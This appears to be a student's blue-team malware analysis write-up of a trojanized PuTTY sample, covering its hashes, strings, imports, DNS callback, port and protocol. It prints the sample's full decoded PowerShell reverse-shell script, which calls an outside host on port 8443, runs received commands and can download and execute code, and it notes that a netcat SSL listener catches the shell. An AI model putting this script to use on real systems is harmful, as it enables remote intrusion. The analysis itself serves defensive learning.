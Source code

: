 ```yaml
---
{"dg-publish":true,"permalink":"/cards/blue-team/malware-analysis/silly-putty-exe/","tags":["specimen"]}
---
```


[[map-of-contents/malware\|malware]] 
## Static Analysis 
---
### Basic Static Analysis
---
#### What is the SHA256 hash of the sample?
---
```
0c82e654c09c8fd9fdf4899718efa37670974c9eec5a8fc18a167f93cea6ee83 *putty.exe
```
#### What architecture is this binary?
---
Putty.exe have a 32-bit architecture.
#### Are there any results from submitting the SHA256 hash to VirusTotal?
---
VirusTotal flag putty.exe as malicious with 60/73 flags!
#### Describe the results of pulling the strings from this binary. Record and describe any strings that are potentially interesting. Can any interesting information be extracted from the strings?
---
The most notable strings found is:

![[Pasted image 20240524212512.png\|Pasted image 20240524212512.png]]

Registry key manipulation.

As well as:

![[Pasted image 20240524212645.png\|Pasted image 20240524212645.png]]

TCP Socket communications
#### Describe the results of inspecting the IAT for this binary. Are there any imports worth noting?
---

![[Pasted image 20240524212836.png\|Pasted image 20240524212836.png]]

Most notable is **WriteFile**, **ShellExecuteA**, **Anti-Debugging** and **Registry Key Manipulation**
#### Is it likely that this binary is packed?
---
No, as the size of raw data is much larger than the virtual size:

![[Pasted image 20240524214706.png\|Pasted image 20240524214706.png]]

### Basic Dynamic Analysis
---
#### Describe initial detonation. Are there any notable occurrences at first detonation? Without internet simulation? With internet simulation?
---
Without Internet Simulation, it opens up the PuTTY configuration but with Internet Simulation it does the same it opens up PowerShell for both.
#### From the host-based indicators perspective, what is the main payload that is initiated at detonation? What tool can you use to identify this?
---
Using `procmon` and process file tree I found a powershell open up with the command in base64.

The decoded is into gunzip file and after removing some paramer such as `-hidden` command:

![[Pasted image 20240524225026.png\|Pasted image 20240524225026.png]]

Using `cyberchef` and clicking the magic wand:


```PowerShell
function Get-Webclient 
{
    $wc = New-Object -TypeName Net.WebClient
    $wc.UseDefaultCredentials = $true
    $wc.Proxy.Credentials = $wc.Credentials
    $wc
}
function powerfun 
{ 
    Param( 
    [String]$Command,
    [String]$Sslcon,
    [String]$Download
    ) 
    Process {
    $modules = @()  
    if ($Command -eq "bind")
    {
        $listener = [System.Net.Sockets.TcpListener]8443
        $listener.start()    
        $client = $listener.AcceptTcpClient()
    } 
    if ($Command -eq "reverse")
    {
        $client = New-Object System.Net.Sockets.TCPClient("bonus2.corporatebonusapplication.local",8443)
    }

    $stream = $client.GetStream()

    if ($Sslcon -eq "true") 
    {
        $sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
        $sslStream.AuthenticateAsClient("bonus2.corporatebonusapplication.local") 
        $stream = $sslStream 
    }

    [byte[]]$bytes = 0..20000|%{0}
    $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
    $stream.Write($sendbytes,0,$sendbytes.Length)

    if ($Download -eq "true")
    {
        $sendbytes = ([text.encoding]::ASCII).GetBytes("[+] Loading modules.`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)
        ForEach ($module in $modules)
        {
            (Get-Webclient).DownloadString($module)|Invoke-Expression
        }
    }

    $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
    $stream.Write($sendbytes,0,$sendbytes.Length)

    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
    {
        $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
        $data = $EncodedText.GetString($bytes,0, $i)
        $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )

        $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
        $x = ($error[0] | Out-String)
        $error.clear()
        $sendback2 = $sendback2 + $x

        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
        $stream.Write($sendbyte,0,$sendbyte.Length)
        $stream.Flush()  
    }
    $client.Close()
    $listener.Stop()
    }
}
powerfun -Command reverse -Sslcon true
```
#### What is the DNS record that is queried at detonation?
---
bonus2.corporatebonusapplication.local
#### What is the callback port number at detonation?
---
Port: 8443.
#### What is the callback protocol at detonation?
---
Based on the WireShark Output it is SSL/TLS
#### How can you use host-based telemetry to identify the DNS record, port, and protocol?
---
Using `procmon` with filter for `OPERATION: TCP`.

#### Attempt to get the binary to initiate a shell on the localhost. Does a shell spawn? What is needed for a shell to spawn?
---

![[Pasted image 20240524234530.png\|Pasted image 20240524234530.png]]

A server using netcat since in the code `ssl` was applied in netcat we simply add `--ssl`










## Conclusion
---

